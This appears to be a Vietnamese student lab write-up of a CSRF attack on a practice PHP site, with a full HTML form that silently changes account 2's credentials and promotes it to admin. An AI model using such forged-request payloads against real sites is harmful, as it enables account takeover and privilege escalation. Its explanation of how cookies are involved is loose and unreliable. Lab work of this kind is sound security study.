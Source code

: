 Người thực hiện: Lê Trần Văn Chương
Ngày: 18/04/2022

- Link: 
    - Victim: https://00bluec10.000webhostapp.com/index.php
    - Attack: https://php-bacsic.000webhostapp.com/
- Để có thể attack vào trước tiên user phải login vào trước để có thể `Cookie` của user đó để attack.
- Khi user đã login và lấy được `Cookie` thì ta gửi cho user host đã chuẩn bị sẵn để user nhấn vào bắt đầu đổi thông tin,... 
- Dưới đây là 1 đoạn `Code` html đơn giản để có thể đổi user có `accountId=2` những thông tin đã nhập trong form sẵn và chuyển user này thành `Admin`:
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://00bluec10.000webhostapp.com/EditAccount.php?accountId=2" method="POST">
      <input type="hidden" name="username" value="CSRF" />
      <input type="hidden" name="email" value="csrf@gmail.com" />
      <input type="hidden" name="password" value="asd" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="editUser" value="Edit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Trước khi attack
![Hinh 1.](~/../img/1.png)

- Sau khi attack
![Hinh 2.](~/../img/2.png)

